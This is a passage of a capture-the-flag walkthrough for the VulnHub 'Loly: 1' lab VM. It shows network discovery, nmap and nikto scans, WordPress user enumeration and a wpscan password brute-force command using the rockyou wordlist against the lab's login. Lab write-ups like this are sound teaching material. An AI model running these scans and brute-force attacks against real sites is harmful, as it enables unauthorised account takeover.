 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bfeaf4da-2536-4bb4-9a13-9810436e2aff)# Loly: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l   
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.135	00:0c:29:0f:25:d7	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The ip address is `192.168.127.135`, let's enumerate it

### 2.Enumeration

```bash
root@kali: -sT -sV -sC -p- -oN nmap.out 192.168.127.135
Nmap scan report for 192.168.127.135
Host is up (0.00036s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:0F:25:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

so we just need to check port 80, using nikto it reveals that the site has wordpress CMS :

```bash
root@kali: nikto -h 192.168.127.135
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://loly.lc/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-login.php: Wordpress login found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /wordpress/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2024-05-06 04:35:09 (GMT-4) (18 seconds)
```

we need to scan the wordpress site using `wpscan` :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f4a42583-023c-4d66-ac55-9243f6b5c983)

yes we found a user, let's brute force this user :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap -U users.txt -P /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d1936e5-c66d-4d86-8f3b-542c210f700a)















